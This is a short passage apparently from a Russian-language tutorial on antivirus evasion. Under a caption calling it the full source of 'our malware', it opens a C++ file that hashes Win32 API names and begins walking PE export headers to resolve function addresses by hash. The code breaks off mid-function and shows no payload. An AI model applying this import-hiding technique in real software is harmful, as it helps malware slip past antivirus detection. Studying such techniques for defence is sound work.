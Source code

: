 ![av](./images/45/2022-03-25_11-10.png){width="80%"}    

Полный исходный код нашей вредоносной программы:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
```